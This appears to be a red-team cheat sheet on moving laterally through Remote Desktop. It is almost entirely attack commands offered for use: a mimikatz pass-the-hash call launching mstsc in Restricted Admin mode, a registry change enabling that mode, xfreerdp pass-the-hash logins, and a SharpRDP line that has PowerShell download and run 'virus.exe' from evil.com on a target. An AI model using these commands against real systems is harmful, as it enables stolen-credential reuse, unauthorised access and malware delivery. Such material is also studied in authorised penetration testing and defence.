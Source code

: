 # Remote desktop

## Windows RDP

{% hint style="info" %}
/admin allows to not disconnect connected user
{% endhint %}

```csharp
 mstsc.exe /admin
```

### Restricted Admin

Allow to use the current user credentials session to make a network connection without entering a password.

#### Enable Restricted admin

```csharp
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

```csharp
 mstsc.exe /restrictedadmin 
```

### Using mimikatz

```csharp
sekurlsa::pth /user:admin /domain:domain /ntlm:<NTLM HASH> /run:"mstsc.exe /restrictedadmin"
```

## SharpRDP

### RDP in console

```csharp
SharpRDP.exe computername=target command=notepad username=domain\user password=password!
```

#### Remote code Execution

```csharp
sharprdp.exe computername=target command="powershell (New-Object System.Net.WebClient).DownloadFile('http://evil.com/virus.exe', 'C:\Windows\Tasks\virus.exe'); C:\Windows\Tasks\virus.exe" username=domain\user password='password!'
```

## Linux RDP

### xfreerdp

#### Domain + NTLM hash

```csharp
xfreerdp /d:domain /u:user /pth:NTLM_HASH /v:DEST_IP /smart-sizing:1920x1080
```

#### Local machine or local account

```csharp
proxychains  xfreerdp /u:b3v1l /p:'Password!'  /v:172.16.1.16 /smart-sizing:1920x1080
```

### rdesktop

```csharp
rdesktop DEST_IP  -u Domain\User -p Password
```

